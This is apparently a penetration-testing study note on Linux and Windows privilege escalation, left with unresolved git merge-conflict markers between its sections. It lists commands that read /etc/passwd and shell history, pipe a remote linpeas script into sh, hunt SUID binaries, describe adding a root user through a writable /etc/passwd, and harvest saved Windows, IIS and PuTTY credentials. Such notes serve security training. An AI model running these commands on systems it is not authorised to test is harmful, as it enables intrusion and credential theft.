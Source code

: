 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```


# linux
## Automated tools

## linpeas
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

<<<<<<< HEAD:oscp/privescScripts/README.md
## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
=======

# Windows

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Windows Users

- Administrative user
- Standard User

## Harvesting passwords from usual spots
The easiest way to gain access to another user is to gather credentials from a compromised machine.

## Powershell history

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands

```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmdkey /list```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```runas /savecred /user:admin cmd.exe```


## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms.Here is a quick way to find database connection strings on the file:

```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```


## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve proxy info: 
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```




>>>>>>> 797f513 (privesc):oscp/privellegeEscialtion.md








